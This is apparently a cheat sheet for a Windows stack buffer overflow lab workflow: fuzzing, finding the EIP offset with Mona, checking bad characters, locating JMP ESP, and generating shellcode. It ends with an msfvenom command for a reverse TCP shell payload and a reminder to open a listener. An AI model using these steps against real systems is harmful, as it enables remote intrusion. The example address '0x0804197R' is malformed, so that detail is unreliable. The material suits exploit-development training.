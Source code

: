 # Buffer-Overflow-Cheatsheet

In this cheat sheet is noted how we can perform an buffer overflow attack

Install Immunity Debugger this will be needed to perform the bugger overflow exploitation.
can be found on: https://www.immunityinc.com/

After installing Immunity debugger install Mona from: https://github.com/corelan/mona.
Put the .py file in the PyCommands folder (C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands. 
This module will be needed to determine the offset/ find the EIP.

## Fuzzing

After running the program on your Windows machine and have it attached to Immunity Debugger.
Run the fuzzer.py script to identify the point where the application will crash.

## Finding the Offset

After finding the crash point we want to find the Offset to the EIP adress.
To do this we can use the following script to generate a string.
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l {bytes}`

To determine the EIP we can use the following mona command:

`!mona findesp -distance {used bytes}` *start Mona first using the !mona modules command*

Put the EIP in the exploit.py script and verify that EIP has been overwritten with the character "B" (42 in hexa)


## Badchars

To identify badchars we will use mona.

Run the badchars.py script and put the output in the exploit.py script to run it against the application the identify the badchars.
Use `!mona config -set workingfolder c:\mona\%p` to set the working folder and use `!mona bytearray -b “\x00` and use the compare command to check the values
`!mona compare -f C:\mona\{machine_name}\bytearray.bin -A {ESP ADRESS}`


## JMP ESP

After filtering out the badchars of the application, we will idenfitfy the equivalent for the OPCODE JMP ESP for change the flow of the application to run our shellcode rewriting the stack from its base (EBP). To find the equivalent of the OPCODE JMP ESP we can use the following command: `!mona -r esp -cpb "\x00"`

After finding the EBP adress we need to convert this adress to littl-endian format to use it in our code like this:

`0x0804197R <-> "\x7R\x19\x04\x08"`


## Exploitation

We can now generator our payload to run against our victim machine inserting the badchars we found using mona.
`msfvenom -p windows/shell_reverse_tcp LHOST=LOCAL_IP LPORT=LOCAL_PORT EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a"`

The `EXITFUNC=thread` prevents the shellcode from crashing the application when executing our shellcode.
`-f c` is for file type which is this case is C. `-e x86/shikata_ga_nai` is for the encoding which we use shikata_ga_nai for. `-b "\x00\x0a"` is voor specifying the badchars.

Now just insert the out in the `exploit.py` script and run it against the application to get a reverse shell. Dont forget to open a listener!
